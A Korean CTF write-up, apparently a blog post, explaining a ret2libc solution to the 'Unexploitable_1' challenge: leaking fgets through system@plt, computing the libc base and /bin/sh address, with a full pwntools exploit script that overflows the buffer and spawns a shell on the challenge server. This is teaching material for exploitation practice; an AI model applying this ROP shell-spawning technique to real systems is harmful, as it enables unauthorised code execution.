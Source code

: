 - **libc base 주소**

    ret를 system_plt로 주고 인자로 fgets_got를 주어서 fgets 주소를 얻어야함.

    그 후 libc database를 이용하여 libc 버전을 확인하여 fgets의 오프셋을 구해 libc_base를 구하면 됨
<br><br>
- **/bin/sh 주소**

    위에서 libc_base를 구했으므로 /bin/sh의 offset을 이용하여 /bin/sh 주소가 있는 문자열을 구하면 됨
    
<br><br>
최종 페이로드는 다음과 같다

- **payload_1**

    ret(pop rdi; ret;) + fgets_got + system_plt + main_addr

- **payload_2**

    ret(pop rdi; ret;) + /bin/sh주소 + system_plt
<br><br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz", 3023)
#p=process("./Unexploitable_1",aslr=False)
#gdb.attach(p)

e=ELF("./Unexploitable_1")

p.recvuntil("plt!\n")
payload="A"*0x18
payload+=p64(0x00000000004007d3) #pop rdi ret;
payload+=p64(e.got["fgets"])
payload+=p64(e.plt["system"])
payload+=p64(0x00000000004006dc)
p.sendline(payload)
p.recvuntil("sh: 1: ")
libc_base=u64(p.recv(6).ljust(8,"\x00"))-0x06dad0 #fgets_offset
log.info("base adr :: "+hex(libc_base))

payload2="A"*0x18
payload2+=p64(0x00000000004007d3) 
payload2+=p64(libc_base+0x18cd57) # /bin/sh offset
payload2+=p64(libc_base+0x045390)

p.sendline(payload2)
p.interactive()
```
<br><br><br><br>
### 4. 몰랐던 개념

---